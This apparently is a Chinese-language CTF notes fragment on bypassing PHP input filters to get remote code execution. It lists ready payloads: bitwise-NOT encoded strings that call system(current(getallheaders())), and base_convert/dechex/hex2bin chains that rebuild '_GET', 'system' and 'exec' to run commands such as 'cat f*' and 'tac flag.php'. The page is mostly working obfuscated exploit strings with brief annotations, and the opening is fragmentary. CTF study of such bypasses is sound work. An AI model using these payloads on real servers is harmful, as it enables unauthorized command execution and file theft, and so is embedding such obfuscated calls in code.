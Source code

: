 ```php
?>
```

最后用读文件的函数读就可以了，什file_get_contents,readfile,highlight_file等等

#### 这是?

`?code=[~%8c%86%8c%8b%9a%92][!%FF]([~%9c%8a%8d%8d%9a%91%8b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()));`

```bash
[~%8c%86%8c%8b%9a%92]->system
[!%FF]拼接
(
[~%9c%8a%8d%8d%9a%91%8b]->current
[!%FF]拼接
(
[~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c]->getallheaders
[!%FF]拼接
()));
```

### 一些数学函数绕过rce

```bash
#base_convert(37907361743,10,36) => "hex2bin"
#dechex(1598506324) => "5f474554"
#$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
#($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
#base_convert('37907361743',10,36)(dechex('1598506324')); =>_GET

c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac flag.php
or 
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=cat f*

#base_convert(696468,10,36) => "exec"
#base_convert(8768397090111664438,10,30) => "getallheaders"
#base_convert(696468,10,36)(base_convert(8768397090111664438,10,30)(){1});
exec(getallheaders(){1})
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})



//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy

//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```
